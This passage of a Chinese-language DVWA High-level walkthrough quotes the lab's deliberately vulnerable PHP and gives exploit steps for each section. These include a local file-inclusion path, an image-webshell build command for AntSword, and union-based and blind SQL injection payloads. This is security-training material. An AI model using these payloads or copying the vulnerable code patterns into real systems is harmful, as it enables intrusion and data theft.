    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysql_real_escape_string( $pass_new );
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

这里对CSRF进行了限制，使用了token技术，验证前端传去的token是否与服务端发送给前端的token是否一致，从而限制了CSRF

组合拳，构造攻击页面，使用xss拿到token，可以构造CSRF攻击

#### File Inclusion

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
?>
```

可以看到，High级别的代码使用了fnmatch函数检查page参数，要求page参数的开头必须是file，服务器才会去包含相应的文件。

漏洞利用

file协议，只要知道绝对路径，就可以包含本地文件

```
payload: file:///var/www/html/hackable/uploads/1.jpg
```


#### upload

```php

<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

*strrpos(string,find,start)*

函数返回字符串find在另一字符串string中最后一次出现的位置，如果没有找到字符串则返回false，可选参数start规定在何处开始搜索。

*getimagesize(string filename)*

函数会通过读取文件头，返回图片的长、宽等信息，如果没有相关的图片文件头，函数会报错。

可以看到，High级别的代码读取文件名中最后一个”.”后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是”*.jpg”、”*.jpeg” 、”*.png”之一。同时，getimagesize函数更是限制了上传文件的文件头必须为图像类型

组合拳： 利用文件包含漏洞，上传图片马，中国蚁剑直接连接

制作图片马

```shell
copy 1.jpg/b + 1.php/a hack.jpg
```

上传hack.jpg之后，在文件包含处使用读取文件，并解析成php代码，中国蚁剑直接连接

#### SQL Injection

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    $num = mysql_numrows( $result );
    $i   = 0;
    while( $i < $num ) {
        // Get values
        $first = mysql_result( $result, $i, "first_name" );
        $last  = mysql_result( $result, $i, "last_name" );

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        // Increase loop count
        $i++;
    }

    mysql_close();
}

?>
```

这里存在字符型注入，并且当sql语句执行错误，则会永久重定向到错误页面，但是这里的参数id没有做任何处理，那么则可以使用联合注入，并回显到当前页面

```
payload : -1' union select 1,2#
```

#### SQL Injection (Blind)

```php

<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }

        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    mysql_close();
}

?>
```

这里也是同样的为字符型注入，id参数未做任何转义处理，直接写入sql查询

```
payload: 1' and ascii(substr(database(),1,1)) <101 #
```

#### XSS（ Reflected）

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

这里函数用正则表达式的搜索和替换，这使得双写绕过、大小写混淆绕过（正则表达式中i表示不区分大小写）不再有效绕过了`<script>`标签，虽然无法使用`<script>`标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码

```
payload : 
```

#### XSS（Stored）

```php
<?php 
if( isset( $_POST[ 'btnSign' ] ) ) { 
    // Get input 
    $message = trim( $_POST[ 'mtxMessage' ] ); 
    $name    = trim( $_POST[ 'txtName' ] ); 
    // Sanitize message input 
    $message = strip_tags( addslashes( $message ) ); 
    $message = mysql_real_escape_string( $message ); 
    $message = htmlspecialchars( $message ); 
    // Sanitize name input 
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name ); 
    $name = mysql_real_escape_string( $name ); 
    // Update database 
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 
    //mysql_close(); 
} 
?>
```

同反射型xss一致，在name处可以使用img标签注入xss代码,不过在前端name处设置了最大字符长度，所以使用burp抓包注入xss代码

```
payload: 
```

